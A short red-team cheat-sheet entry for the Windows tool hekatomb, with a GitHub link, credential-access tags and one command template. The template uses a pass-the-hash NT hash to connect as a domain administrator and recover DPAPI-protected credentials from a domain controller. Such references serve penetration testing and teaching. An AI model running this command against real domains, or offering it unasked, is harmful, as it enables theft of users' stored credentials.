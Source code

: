 # hekatomb

% hekatomb, dpapi

## hekatomb -
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

https://github.com/Processus-Thief/HEKATOMB
```
hekatomb -hashes :<nt_hash> <domain>/administrator@<dc_ip> -debug 
```